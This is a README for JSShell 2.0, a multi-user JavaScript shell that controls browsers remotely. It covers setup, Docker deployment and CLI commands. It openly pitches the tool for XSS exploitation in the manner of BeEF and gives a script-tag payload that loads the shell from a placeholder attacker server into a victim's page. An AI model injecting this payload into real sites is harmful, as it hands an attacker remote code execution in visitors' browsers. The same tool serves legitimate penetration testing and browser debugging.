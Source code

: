 # JSShell 2.0

[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![Generic badge](https://img.shields.io/badge/docker-friendly-blue.svg)](https://shields.io/)
[![Generic badge](https://img.shields.io/badge/python-3.6+-green.svg)](https://shields.io/)

An interactive multi-user web based javascript shell. It was initially created in order to debug remote 
esoteric browsers during experiments and research. This tool can be easily attached to XSS (Cross Site Scripting)
payload to achieve browser remote code execution (similar to the BeeF framework).

Version 2.0 is created entirely from scratch, introducing new exciting features, stability and maintainability.

###### Version: 2.0

## Author
[Daniel Abeles](https://twitter.com/Daniel_Abeles).

### Shell Video
[![asciicast](https://asciinema.org/a/217167.png)](https://asciinema.org/a/217167)

## Features
* Multi client support
* Cyclic DOM objects support
* Pre flight scripts
* Command Queue & Context
* Extensible with Plugins
* Injectable via `<script>` tags
* Dumping command output to file
* Shell pagination


## Installation & Setup

### Config File
In the `resources` directory, update the `config.json` file with your desired configuration:
* Database host - if running with the `docker` deployment method, choose the database host as `db` 
(which is the internal host name).
* Return URL - the URL which the requests will follow. The `shell.js` file does some AJAX calls to register and poll
for new commands. Usually it will be `http://{YOUR_SERVER_IP}:{PORT}`.
* Startup script - a script that runs automatically when the JSShell CLI client is spawned.
* It is also possible to point at a remote database if desired.


### Docker
This new version instructed installing and running via `docker` and `docker-compose`. Now, to install and run the entire
JSShell framework, simply run:

```bash
$ ./start_docker_shell.sh
```

This will:
- Start and create the database in the background
- Start the web API server that handles incoming connections in the background
- Spawn a new instance of the `JSShell` command line interface container

### Regular
If you still want to use the old fashion method of installing, simply make sure you have a `MongoDB`
database up and running, and update the `config.json` file residing in the `resources` directory.

I recommend using a virtual environment with `pyenv`:
```bash
$ pyenv virtualenv -p python3.6 venv
$ pyenv activate venv
```

Or using `virtualenv`:

```bash 
$ virtualenv -p python3.6 venv
$ source venv/bin/activate
```

Then, install the requirements:
```bash
$ pip install -r requirements.txt
```

## Running
If you used the `docker` method, there's no need to run the following procedure.

### Web Server
Otherwise, once we have the database setup, we need to start the web API server. To do, run:
```bash
$ python manage.py web
```

This will create and run a web server that listens to incoming connections and serves our JSShell code. 

### Shell
Now to start the JSShell CLI, run the same script but now with the `shell` flag:
```bash
$ python manage.py shell
```

## Usage
After setup and running the required components, enter the `help` command to see the available commands:
```
     ╦╔═╗┌─┐┬ ┬┌─┐┬  ┬  
     ║╚═╗└─┐├─┤├┤ │  │  
    ╚╝╚═╝└─┘┴ ┴└─┘┴─┘┴─┘ 2.0     
        by @Daniel_Abeles
    
>> help

Documented commands (type help <topic>):

General Commands
--------------------------------------------------------------------------------
edit                Edit a file in a text editor
help                List available commands or provide detailed help for a specific command
history             View, run, edit, save, or clear previously entered commands
ipy                 Enter an interactive IPython shell
py                  Invoke Python command or shell
quit                Exit this application

Shell Based Operations
--------------------------------------------------------------------------------
back                Un-select the current selected client
clients             List and control the clients that have registered to our system
commands            Show the executed commands on the selected client
dump                Dumps a command to the disk
execute             Execute commands on the selected client
select              Select a client as the current client

>> 
```

## Flow
JSShell supports 2 methods of operation:
1. Injectable Shell (similar to BeeF framework)
2. Hosted Shell (for debugging)

### Injectable Shell
Similar to other XSS control frameworks (like BeeF), JSShell is capable of managing successful XSS exploitations.
In example, if you can inject a `script` tag, inject the following resource to your payload, and a new client will 
appear in your console: 

`<script src="http://{YOUR_SERVER_IP}:{PORT}/content/js"></script>`

### Hosted Shell 
If you desire to debug exotic and esoteric browsers, you can simply navigate to `http://{YOUR_SERVER_IP}:{PORT}/` and
a new client will pop up into your JSShell CLI client. Now it is debuggable via our JSShell console.

## Credits
[Canop](https://github.com/Canop) for [JSON.prune](https://github.com/Canop/JSON.prune/)



###### use it at your own responsibility and risk.
